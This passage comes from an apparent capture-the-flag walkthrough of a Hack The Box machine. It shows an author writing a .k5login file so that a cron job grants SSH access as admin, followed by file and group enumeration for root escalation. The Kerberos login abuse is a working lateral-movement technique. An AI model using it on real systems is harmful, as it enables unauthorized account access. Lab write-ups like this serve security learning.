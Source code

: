I’ll write a simple `.k5login` file:

```

[j.nakazawa@srv01 squid]$ echo "j.nakazawa@REALCORP.HTB" > /var/log/squid/.k5login

```

Once the next cron triggers, I can auth as admin using SSH:

```

oxdf@parrot$ ssh admin@10.10.10.224
Activate the web console with: systemctl enable --now cockpit.socket

Last login: Thu Jun 17 14:15:01 2021
[admin@srv01 ~]$ 

```

## Shell as root

### Enumeration

I’ll use `find` to identify files in owned by the admin user:

```

[admin@srv01 ~]$ find / -user admin -type f 2>/dev/null | grep -Ev "^/sys|^/run|^/proc"
/var/spool/mail/admin
/home/admin/squid_logs.tar.gz.2021-06-10-012801

```

I’m using `grep` to get rid of things starting with `/sys`, `/run`, and `/proc` because those aren’t interesting. The logs archive is created by the cron (there must be something clearing those periodically). The mail file could be interesting, but it’s zero bytes:

```

[admin@srv01 ~]$ ls -l /var/spool/mail/admin
-rw-rw----. 1 admin mail 0 Dec  9  2020 /var/spool/mail/admin

```

The admin user is in the admin and squid groups:

```

[admin@srv01 ~]$ id
uid=1011(admin) gid=1011(admin) groups=1011(admin),23(squid) context=unconfined_u:unconfined_r:unconfined_t:s0-s0:c0.c1023

```

Doing the same thing to find files in associated with the admin group, there are two additional files:
